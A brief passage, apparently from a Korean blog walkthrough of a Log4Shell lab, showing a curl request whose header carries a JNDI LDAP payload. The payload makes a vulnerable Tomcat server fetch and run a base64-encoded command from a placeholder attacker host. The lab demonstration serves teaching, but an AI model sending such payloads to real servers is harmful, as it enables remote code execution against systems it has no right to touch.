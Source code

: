 ![image-20211225211521249](https://raw.githubusercontent.com/Shane-Park/mdblog/main/news/log4shell.assets/image-20211225211521249.png)

공격 코드가 정해 졌습니다. 즉각 해당코드를 실행 하도록 취약 서버에 요청을 보내 보겠습니다.

```zsh
curl 192.168.0.32:9999 -H 'X-Api-Version: ${jndi:ldap://공격ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9zaGFuZQ==}'
```

취약서버 톰캣 로그
